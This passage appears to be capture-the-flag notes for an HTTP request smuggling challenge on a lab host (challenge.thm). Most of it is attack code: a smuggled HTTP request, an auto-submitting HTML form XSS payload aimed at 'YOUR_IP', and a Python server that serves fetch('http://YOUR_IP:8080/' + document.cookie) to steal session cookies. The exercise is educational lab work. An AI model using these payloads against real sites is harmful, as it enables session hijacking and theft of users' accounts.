 
Sample payload
```http
POST / HTTP/1.1
Host: challenge.thm
Proxy-Connection: keep-alive
Content-Length: 30 Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=thm(SECRET)

GET /404 HTTP/1.1
Cookie: session=thm(SECRET)
X-Header: x
```

- Note the incomplete header `X-Header: x`, this will hide the next request and the server will assume that the actual request is `GET /404 HTTP/1.1`

- Payload for XSS attack
```html
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```

- Sample server to exfiltrate the cookies
```python
#!/usr/bin/python3

    
from http.server import BaseHTTPRequestHandler, HTTPServer

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.send_header("Content-type","text/html")

            self.end_headers()
            self.wfile.write(b"fetch('http://YOUR_IP:8080/' + document.cookie)")  
def run_server(port=1337):   
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```